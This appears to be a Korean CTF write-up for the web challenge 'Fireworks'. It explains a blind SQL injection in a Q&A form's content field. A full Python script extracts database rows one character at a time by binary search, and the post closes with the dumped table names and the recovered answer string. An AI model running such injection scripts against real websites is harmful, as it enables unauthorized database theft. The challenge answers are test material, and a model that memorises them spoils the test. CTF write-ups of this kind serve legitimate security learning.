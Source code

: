 ## No.15 Web Fireworks[200]

**점수:** 200

**분야:** Web

**제목:** Fireworks

----

Q&A 페이지의 content 변수에서 블라인드 인젝션이 터진다.

아래 스크립트를 이용해 db를 털어낸다.

`chiffon` 테이블에서 `3ny4vtsuh` 문자열 발견.

S석 예약 시 `seats` 변수에 이 문자열을 넣어주면 답이 나온다.

```python
import urllib
import urllib2
import time
 
def try_query(query):
    data = {
        'content': query
    }
 
    while True:
        try:
            req = urllib2.Request('http://223.194.105.182:43080/question_query.php', data=urllib.urlencode(data))
            result = urllib2.urlopen(req).read()
            break
        except urllib2.HTTPError:
            time.sleep(.3)
            pass
 
    return 'location.href' not in result
 
flag = ""
i = 1
min = 0x20
max = 0x7f
 
while True:
    pivot = (min + max) / 2
 
    if pivot == min or pivot == max:
        flag += chr(pivot)
        min = 0x20
        max = 0x7f
        i += 1
        print flag
        continue
 
    query = "' or mid((select binary concat_ws(',', name, tel, home, seat) from sseat where name='Key'),{},1)<'{}'-- -".format(i, chr(pivot))
 
    if try_query(query):
        max = pivot
    else:
        min = pivot
 
    time.sleep(.1)
 
# HUST
#   look it i5 hint => do not open seat table
# aseat
#   name tel home seat id
# board
#   find data v4lues please
# boom
#    go t0 another t4ble
# chicken
#    chicken i5 very delicious
# chiffon
#    m4tch w0rds => 3ny4v tsuh
# inforseat
#    id pw name tel email
# sseat
#    name tel home seat
```
